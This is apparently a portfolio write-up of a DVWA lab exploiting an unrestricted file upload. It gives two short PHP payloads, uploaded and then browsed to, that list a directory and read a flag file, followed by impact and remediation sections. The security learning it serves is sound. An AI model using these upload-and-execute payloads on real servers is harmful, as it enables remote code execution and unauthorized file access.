







# Unrestricted File Upload in DVWA — From Upload Form to Remote Code Execution


A walkthrough of an unrestricted file upload in DVWA's **File Upload** module. The form accepts any file, keeps its name, and drops it into a directory that executes PHP — so uploading a `.php` file and browsing to it runs your code on the server. I use that to list a protected directory, find a randomly-named flag file, and read it.

> ⚠️ **Disclaimer** — Performed against an authorized lab instance of the intentionally vulnerable [Damn Vulnerable Web Application (DVWA)](https://github.com/digininja/DVWA). Never run these techniques against systems you don't own or have explicit permission to assess.



---

## Table of Contents
- [TL;DR](#tldr)
- [Environment](#environment)
- [Step 1 — Recon: read the source](#step-1--recon-read-the-source)
- [Step 2 — Upload a PHP file](#step-2--upload-a-php-file)
- [Step 3 — Execute it & enumerate](#step-3--execute-it--enumerate)
- [Step 4 — Read the flag file](#step-4--read-the-flag-file)
- [Why it works](#why-it-works)
- [Impact](#impact)
- [Remediation](#remediation)
- [Key takeaways](#key-takeaways)
- [References](#references)

---

## TL;DR

The upload handler stores files in `hackable/uploads/` under their original name with **no validation**, and that folder executes PHP. Upload a script, browse to it, done:

```php
// ls.php  — runs from hackable/uploads/, so "../" lists the parent hackable/
<?php print_r(scandir("../")); ?>
```

That reveals the flag file (`Upload_45702.php`); a second upload reads it:

```php
// print.php
<?php readfile("../Upload_45702.php"); ?>
```

Browse to `print.php`, hit **Ctrl+U**, and the flag is in the source.

---

## Environment

| | |
|---|---|
| **Target** | Damn Vulnerable Web Application (DVWA) v1.9 |
| **Module** | File Upload |
| **Security level** | `low` |
| **Upload directory** | `hackable/uploads/` (inside web root, executes PHP) |
| **Approach** | Grey-box — source available via *View Source* |

The two payloads used are in [`payloads/`](payloads).

---

## Step 1 — Recon: read the source

**View Source** shows the upload handler:



```php
$target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
$target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );
move_uploaded_file( $_FILES['uploaded']['tmp_name'], $target_path );
```

No extension check, no MIME check, no size limit — the file is stored under its original name inside the web root. `basename()` only strips directory components from the *name* (blocking traversal in the filename), which doesn't help, because the uploaded code does its own navigation at runtime.



## Step 2 — Upload a PHP file

Create `ls.php` and upload it through the form:

```php
<?php
print_r(scandir("../"));
?>
```

### ⚠️ Gotcha: hidden file extensions

My first upload landed as `ls.txt`, not `ls.php`:



Windows was hiding the real extension — the file was actually `ls.php.txt`, and `basename()` faithfully kept that name. A `.txt` file won't execute (Apache serves it as plain text), so browsing to it 404s or shows source. Fix: enable **File name extensions** in Explorer (or *Save As → All Files* and quote the name `"ls.php"`), then re-upload. The success message should read:

```
../../hackable/uploads/ls.php successfully uploaded!
```

*(The `../../` is relative to `/vulnerabilities/upload/`, so the file lands at the site root under `/hackable/uploads/`.)*

## Step 3 — Execute it & enumerate

Browse straight to the uploaded script:

```
http://<IP>:<PORT>/hackable/uploads/ls.php
```

Since it runs from `hackable/uploads/`, `scandir("../")` lists the parent `hackable/` directory — and there's the randomly-named flag file:



```
Array ( [0] => . [1] => .. [2] => Upload_45702.php [3] => flags [4] => uploads [5] => users )
```

Flag file: **`Upload_45702.php`**.

## Step 4 — Read the flag file

Create `print.php` with the exact name found above (keep the `../`), and upload it:

```php
<?php
readfile( "../Upload_45702.php" );
?>
```

Browse to it:

```
http://<IP>:<PORT>/hackable/uploads/print.php
```

The page looks **blank** — because the flag lives inside a PHP comment, so nothing renders. **Ctrl+U** (View Source) reveals the raw file contents:



```php
<?php
// Upload_flag: 4ed95ef9……………………………………9038a7c   (redacted to avoid spoiling the lab)
?>
```

> Why `readfile` + Ctrl+U instead of just opening `/hackable/Upload_45702.php`? Requesting it directly would make the server **execute** it, so you'd only see whatever it chooses to output (nothing). `readfile` dumps the raw bytes, and Ctrl+U shows them verbatim — comment and all.

## Why it works

The app treats an upload as trusted data. But the destination folder is (a) inside the web root and (b) configured to execute PHP, so a stored `.php` file is live code one HTTP request away. "An uploaded file" and "a program the server will run" are the same thing here.

## Impact

Unrestricted upload into an executable directory is effectively remote code execution.

- Drop a full web shell for persistent, interactive control
- Read/modify any file the web service account can reach
- Pivot and attempt privilege escalation from the foothold
- Host malicious content or deface the app

## Remediation

- **Validate type with an allow-list** — accept only expected extensions *and* verify content (magic bytes / MIME). Never trust the client-supplied name or `Content-Type`.
- **Rename uploads** — generate a random server-side name and set the extension yourself; discard the user's filename.
- **Store outside the web root**, or disable script execution for the upload directory.
- **Enforce size limits** and scan uploads where appropriate.
- **Least privilege** so a successful upload has limited reach.

## Key takeaways

- The dangerous combination is *stored in web root* **+** *executes code*. Either one alone is far less severe.
- Turn on file-extension visibility before doing upload work — the `.txt` gotcha wastes real time.
- A relative path in uploaded code is resolved from where the code runs (`hackable/uploads/`), so `../` is your friend for climbing to the target.
- When a page renders blank, check the raw source — output can be present but invisible (comments, tags, whitespace).

## References

- OWASP — [Unrestricted File Upload](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
- OWASP — [File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- PHP — [`move_uploaded_file()`](https://www.php.net/manual/en/function.move-uploaded-file.php) · [`readfile()`](https://www.php.net/manual/en/function.readfile.php)
- MITRE — [CWE-434](https://cwe.mitre.org/data/definitions/434.html)
- [DVWA on GitHub](https://github.com/digininja/DVWA)

---

<sub>A formal PDF version of this assessment is included as <code>DVWA_File_Upload_Report.pdf</code>. Part of my security learning portfolio.</sub>
